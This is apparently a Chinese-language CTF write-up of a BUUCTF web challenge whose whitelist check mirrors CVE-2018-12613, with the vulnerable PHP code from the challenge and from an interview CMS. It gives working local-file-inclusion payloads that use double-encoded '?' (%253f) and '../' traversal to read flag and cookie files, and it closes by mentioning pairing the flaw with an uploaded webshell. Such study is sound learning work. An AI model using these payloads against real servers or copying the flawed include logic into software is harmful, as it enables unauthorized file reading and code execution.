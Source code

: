 ﻿# 一段遇到多次的代码


---
buuctf web方面的第一题，是这样一段代码
```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
做的时候就感觉莫名的眼熟，想了想好像之前做题也遇到过，在二面的时候给的cms中也出现过，就记录一下，或许这就是现cms中经常出现的一个漏洞呢~

P.S.(后来经搜索发现确实是CVE漏洞，编号为CVE-2018-12613)

这里把二面的代码也给贴出来
```
<?php
include './library/inc.php';

if (get_channel($id, 'id') === false) {
  alert_href($_lang['illegal'], './');
}
setUrlBack();

$c_main = $channel['c_main'];
// 获取相关信息
$channel_slist = channel_slist($channel['c_ifsub'] == 1 ? $channel['id'] : $channel['c_parent'], $channel['id']);
$current_channel_location = current_channel_location($channel['id'], $channel['id']);

// 获取上级信息
$channel_parent = $objChannel->getParent($channel['id']);
$channel_main = $objChannel->getMain($channel['id']);

// 获取子集列表
$channel_sub = $objChannel->getSon($channel['id']);

// 分页&列表
if (strpos($channel['c_cmodel'], '_list')) {
  include LIB_PATH . 'cls.page.php';
  $pager = new Page($channel['c_page']);
  $pager->handle($db->getOne("SELECT COUNT(id) FROM detail WHERE d_parent IN (" . $channel['c_sub'] . ")"));
  $list_pager = $db->getAll("SELECT * FROM detail WHERE d_parent IN (" . $channel['c_sub'] . ") ORDER BY d_order ASC,id DESC LIMIT " . $pager->page_start . "," . $pager->page_size);
}

include $t_path . $channel['c_cmodel'];

// 释放资源
unset($objChannel);
unset($channel);
unset($c_main);
unset($channel_slist);
unset($current_channel_location);
unset($channel_parent);

function checkFile(&$page)
{
  $whitelist = array("more"=>"more.php");
  if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
    }
 
  if (in_array($page, $whitelist)) {
    return true;
  }
 
  $_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
  );
  if (in_array($_page, $whitelist)) {
    return true;
  }
  $_page = urldecode($page);
  $_page = mb_substr(
  $_page,
  0,
      mb_strpos($_page . '?', '?')
  );
  if (in_array($_page, $whitelist)) {
      return true;
  }
  echo "you can't see it";
  return false;
}

if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} 
```
自己博客不嫌字多，看该文件中定义的checkFile，几乎和上面那道题类似，都设置了读取白名单，进行了多个if的检验，并在检验返回true后去包含那个文件。

这里注意他的检验方法，先在参数后面加上一个?，再去截断第一个?前的内容进行白名单的比较；我们很容易想到构造
```
source.php?file=source.php?/../../../../../ffffllllaaaagggg
```
但其实这个payload是不行的（不知道为什么这个payload在那道题里适用...理论上来说是行不通的），因为它无法去读取到后面那个文件。这时候我们继续看if验证还有个先url解码，再加上一个?，再去对比第一个?前的内容进行白名单比较（为了防止后面还有传参），于是我们得到payload：
```
source.php?file=source.php%253f/../../../../../ffffllllaaaagggg
```
他会只截取到source.php拿去进行白名单比较。而后面去读取flag的时候涉及到一个文件包含中的问题，即如果前一个文件不存在的话。他会忽视前一个文件。例子如下，大家可以试一下：
这是用于包含的文件
```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```
然后再去用类似payload包含文件
```
http://localhost/baohan.php?filename=12.txt%253f/../cookie.txt
```
```
http://localhost/baohan.php?filename=12/../cookie.txt
```
```
http://localhost/baohan.php?filename=12.txtfdaohuithroh/../cookie.txt
```
%253f是?的二次编码

从上面的例子可以看到，这三个payload读取的都是cookie.txt这个文件，因为前面的12.txt%253f，12，12.txtfdaohuithroh并不存在，于是就被忽略掉了。
而这里我们为了通过验证
这时他包含的会是后一个文件，因为它将前一个文件视为了目录。
再说编码的问题，两次url编码，会在url传过去时一次解码。并在urldecode那里解码为?,就完成了隔断。然后就通过了验证，返回了true，去包含了我们想要的那个文件。

学到的东西，对那两个函数mb_substr,mb_strpos,有了更深的印象，了解到了上文提到的文件包含所包含的文件名的那个机制。还有../../../../../../这种遍历目录的方法。主要就这些。

P.S.（就像我上面补充的，这是个CVE，所以说下结合的方法，个人觉得还是应该配合的文件上传传上去的马进行利用。）


